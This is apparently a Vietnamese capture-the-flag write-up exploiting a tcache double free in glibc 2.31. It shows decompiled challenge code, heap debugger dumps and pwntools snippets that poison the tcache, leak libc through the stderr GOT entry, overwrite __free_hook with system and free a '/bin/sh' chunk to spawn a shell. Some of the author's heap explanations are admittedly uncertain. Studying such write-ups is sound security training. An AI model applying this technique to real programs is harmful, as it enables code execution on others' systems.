

# tcache double free in glibc 2.31

# Source code

```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  char v3; // [rsp+Fh] [rbp-11h] BYREF
  int v4; // [rsp+10h] [rbp-10h] BYREF
  _DWORD size[3]; // [rsp+14h] [rbp-Ch] BYREF

  *(_QWORD *)&size[1] = __readfsqword(0x28u);
  init();
  puts("Ebook v1.0 - Beta version\n");
  while ( 1 )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        menu();
        __isoc99_scanf("%d", &v4);
        __isoc99_scanf("%c", &v3);
        if ( v4 != 1 )
          break;
        printf("Size: ");
        __isoc99_scanf("%u", size);
        __isoc99_scanf("%c", &v3);
        ptr = malloc(size[0]);
        printf("Content: ");
        read(0, ptr, size[0]);
        *((_BYTE *)ptr + (unsigned int)(size[0] - 1)) = 0;
      }
      if ( v4 == 2 )
        break;
      switch ( v4 )
      {
        case 3:
          if ( ptr )
          {
            free(ptr);
            puts("Done!");
          }
          else
          {
LABEL_15:
            puts("You didn't buy any book");
          }
          break;
        case 4:
          if ( !ptr )
            goto LABEL_15;
          printf("Content: %s\n", (const char *)ptr);
          break;
        case 5:
          exit(0);
        default:
          puts("Invalid choice!");
          break;
      }
    }
    if ( !ptr )
      goto LABEL_15;
    printf("Content: ");
    read(0, ptr, size[0]);
    *((_BYTE *)ptr + (unsigned int)(size[0] - 1)) = 0;
  }
}
```
Mục tiêu của bài này là tập trung khai thác lỗi double free trên glibc 2.31. Chương trình sẽ in ra menu gồm 4 nội dung chính

    Ebook v1.0 - Beta version
    1. Buy a book
    2. Write to book
    3. Erase content of book
    4. Read the book
    5. Exit

Nếu chọn option 1 chương trình sẽ yêu cầu tiếp size và content và malloc ra một khoảng bằng size[0]. Nếu chọn option 2, ta có thể thay đổi được nội dung của nó. Option 3 sẽ free khoảng này và xóa content của nó. Option 4 sẽ đọc nội dung của khoảng này và option 5 là kết thúc chương trình.

Lỗi double free xảy ra khi ta free một con trỏ quá 1 lần khiến 2 vùng giải phóng lặp lại. Đầu tiên ta thử gây ra lỗi này bằng 2 lần option 3

```java
Ebook v1.0 - Beta version

1. Buy a book
2. Write to book
3. Erase content of book
4. Read the book
5. Exit
> 1
Size:20
Content: AAAAAAAAA
1. Buy a book
2. Write to book
3. Erase content of book
4. Read the book
5. Exit
> 3
Done!
1. Buy a book
2. Write to book
3. Erase content of book
4. Read the book
5. Exit
> 3
free(): double free detected in tcache 2
Aborted
```
Ta gặp lỗi, khả năng cao là nó đang có cơ chế bảo vệ gì đó, nên mình sẽ phải debug ở đây

```java
gef➤  heap chunks <--- trước khi free
Chunk(addr=0x405010, size=0x290, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x0000000000405010     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x4052a0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x00000000004052a0     c3 41 41 41 41 41 41 41 41 41 41 0a 00 00 00 00    .AAAAAAAAAA.....]
Chunk(addr=0x4052c0, size=0x20d50, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  top chunk
...
gef➤  heap chunks <--- sau khi free
Chunk(addr=0x405010, size=0x290, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x0000000000405010     01 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x4052a0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x00000000004052a0     00 00 00 00 00 00 00 00 10 50 40 00 00 00 00 00    .........P@.....]
Chunk(addr=0x4052c0, size=0x20d50, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  top chunk
gef➤  heap bins
───────────────────────────────────────────────────────────────────────────────── Tcachebins for thread 1 ─────────────────────────────────────────────────────────────────────────────────
Tcachebins[idx=0, size=0x20, count=1] ←  Chunk(addr=0x4052a0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
```
Ta quan sát phía trên: khi đã được free, chunk k hề biến mất mà bên trong phần header của chunk vừa được giải phóng xuất hiện các byte lạ, nếu để ý kỹ hơn thì ta thấy đó chính là địa chỉ của chunk phía trên.



Khi một chunks được giải phóng, vị trí user data sẽ trở thành vị trí lưu trữ cho 2 con trỏ Fd và Bk (cả 2 đều có độ lớn là 8 byte). Trong trường hợp của mình heap manager sẽ quản lý các vùng đã giải phóng bằng con trỏ Bk. Sau khi free nó sẽ bảo vệ khỏi lỗi bằng cách kiểm tra Bk có nằm trong chunks hay không, nếu không thì nó sẽ cho ta free.

Thêm nữa, option 2 của mình là lỗi use after free khi nó có thể sửa đổi nội dung bên trong chunk bất kể nó đã free hay chưa. Ta tận dụng lỗi này để thay đổi Bk trong chunk đã giải phóng rồi double free.

Chall này không có hàm win để nhảy vào nên bắt buộc ta phải tạo được shell. Trước tiên phải leak được libc để gọi tới được system. Mình sẽ dùng option 2 ghi địa chỉ got của vùng nào đấy rồi dùng option 4 để in nó ra

```python
p.sendlineafter(b'>', b"1")
p.sendlineafter(b'Size: ', b'20')
p.sendafter(b'Content: ', b"A"*20)

p.sendlineafter(b'>', b"3")

p.sendlineafter(b'>', b"2")
p.sendafter(b'Content: ', b'\0'*16)

p.sendlineafter(b'>', b"3")

p.sendlineafter(b'>', b"2")
p.sendafter(b'Content: ', p64(exe.sym['stderr']))
```
Ta sẽ double free và ghi địa chỉ got của stderr vào và đọc nó ra

```java
gef➤  heap bins
───────────────────────────────────────────────────────────────────────────────── Tcachebins for thread 1 ─────────────────────────────────────────────────────────────────────────────────
Tcachebins[idx=0, size=0x20, count=3] ←  Chunk(addr=0xf252a0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  
←  Chunk(addr=0x404040, size=0x0, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  
←  Chunk(addr=0x7f3b5f4245c0, size=0x0, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  [Corrupted chunk at 0x7f3b5f4245c0]
```

Lúc này trong tcache đã xuất hiện địa chỉ trong libc của stderr và size của nó được set = 0 (mình thử ghi mọi hàm nó vẫn set = 0). Sau khi ta double free và malloc 2 lần thì có thể đọc được 2 con trỏ Fd và Bk (tại sao thì mình vẫn chưa biết =))). 

Lý do mà mình nên chọn stderr để leak libc là bởi vì khi bộ nhớ kiểm tra một vùng sử dụng lại nó sẽ có 2 thứ ta cần quan tâm chính là prev size và size. 

```java
0x404020 <stdout@@GLIBC_2.2.5>: 0x00007f3b5f4246a0      0x0000000000000000
0x404030 <stdin@@GLIBC_2.2.5>:  0x00007f3b5f423980      0x0000000000000000
0x404040 <stderr@@GLIBC_2.2.5>: 0x00007f3b5f4245c0      0x0000000000000000
```
Ta ghi địa chỉ của stderr thì nó sẽ hiểu rằng 0x00007f3b5f4245c0 là prev size và 0x00 chính là size của nó, sẽ không có lỗi ở đây. Nếu sử dụng hàm khác, ví dụ như puts 

```java
0x403fb8 <puts@got.plt>:        0x00007f3b5f2bb420      0x00007f3b5f2c2ad0
```
8 byte sau đại diện cho size và điều này sẽ gây lỗi do khi ta ghi đè vào địa chỉ got của puts, hệ thống sẽ phát hiện 0x0 k phải là size của nó. Và khi dùng stdin hoặc stdout thì mình bị kẹt lại ở 2 hàm read và write do k nhập và cũng k có gì để xuất.

Chunks thứ 2 trong tcache có Fd đang chứa địa chỉ của libc ta muốn leak nên malloc 2 lần và đọc nó thôi.

```java
[DEBUG] Received 0x10 bytes:
    00000000  43 6f 6e 74  65 6e 74 3a  20 31 45 42  5f 3b 7f 0a  │Cont│ent:│ 1EB│_;··│
    00000010
```
Tiếp theo, trước phiên bản libc 2.34, nó tồn tại các hàm như là một tính năng (nghe mn nói vậy :>) như __free_hook, __malloc_hook ...

    Variable: __free_hook
    The value of this variable is a pointer to function that free uses whenever it is called. You should define this function to look like free; that is, like:

    void function (void *ptr, const void *caller)
    The value of caller is the return address found on the stack when the free function was called. This value allows you to trace the memory consumption of the program.
    
Tóm lại là ta có thể gọi tới các hàm khác khi gọi tới free hoặc malloc nhờ vào cách ghi địa chỉ vào cái hook này. Ta sẽ exploit bằng cách ghi địa chỉ system vào __free_hook, sau đó sẽ free trên chunk chứa chuỗi /bin/sh để tạo shell.

Để làm được điều đó thì ta lại phải tận dụng lỗi double free, giống như cách làm trên. Sau khi đã có lỗi double free trong tcache, ta sẽ dùng uaf để sửa nội dung chunk đấy trỏ đến địa chỉ của __free_hook, sau 2 lần malloc ta sẽ truy cập được vào địa chỉ của __free_hook và overwrite thành system.

Sau lần malloc thứ 3 ta sẽ được như này

```java
gef➤  heap chunks
Chunk(addr=0xd58010, size=0x290, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x0000000000d58010     02 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0xd582a0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x0000000000d582a0     31 40 40 00 00 00 00 00 00 00 00 00 00 00 00 00    1@@.............]
Chunk(addr=0xd582c0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x0000000000d582c0     48 2e 17 2c 8b 7f 00 00 10 80 d5 00 00 00 00 00    H..,............]
Chunk(addr=0xd582e0, size=0x20d30, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  top chunk
gef➤  heap bins
───────────────────────────────────────────────────────────────────────────────── Tcachebins for thread 1 ─────────────────────────────────────────────────────────────────────────────────
Tcachebins[idx=0, size=0x20, count=2] ←  Chunk(addr=0xd582c0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  Chunk(addr=0x7f8b2c172e48, size=0x0, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
─────────────────────────────────────────────────────────────────────────── Fastbins for arena at 0x7f8b2c170b80 ───────────────────────────────────────────────────────────────────────────
Fastbins[idx=0, size=0x20] 0x00
Fastbins[idx=1, size=0x30] 0x00
Fastbins[idx=2, size=0x40] 0x00
Fastbins[idx=3, size=0x50] 0x00
Fastbins[idx=4, size=0x60] 0x00
Fastbins[idx=5, size=0x70] 0x00
Fastbins[idx=6, size=0x80] 0x00
───────────────────────────────────────────────────────────────────────── Unsorted Bin for arena at 0x7f8b2c170b80 ─────────────────────────────────────────────────────────────────────────
[+] Found 0 chunks in unsorted bin.
────────────────────────────────────────────────────────────────────────── Small Bins for arena at 0x7f8b2c170b80 ──────────────────────────────────────────────────────────────────────────
[+] Found 0 chunks in 0 small non-empty bins.
────────────────────────────────────────────────────────────────────────── Large Bins for arena at 0x7f8b2c170b80 ──────────────────────────────────────────────────────────────────────────
[+] Found 0 chunks in 0 large non-empty bins.
gef➤  x/x 0x7f8b2c172e48
0x7f8b2c172e48 <__free_hook>:   0x0000000000000000
```
Thấy hẳn 2 con trỏ Fd và Bk trong chunk luôn :v

```java
0x00007f8b2c172e48 → 0x00007f8b2bfd6290 → <system+0> endbr64
```
Giờ gửi /bin/sh và free để tạo shell

```java
[DEBUG] Sent 0x2 bytes:
    b'3\n'
[*] Switching to interactive mode
 $ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x35 bytes:
    b'chall1\tchall1.i64  ld-2.31.so\tlibc-2.31.so  solve.py\n'
chall1    chall1.i64  ld-2.31.so    libc-2.31.so  solve.py
$
```
Script dài quá nên mình sẽ k để ở file riêng =))

*Bài này vẫn còn nhiều thiếu sót mình sẽ nghiên cứu thêm và bổ sung cho nó chi tiết hơn sau*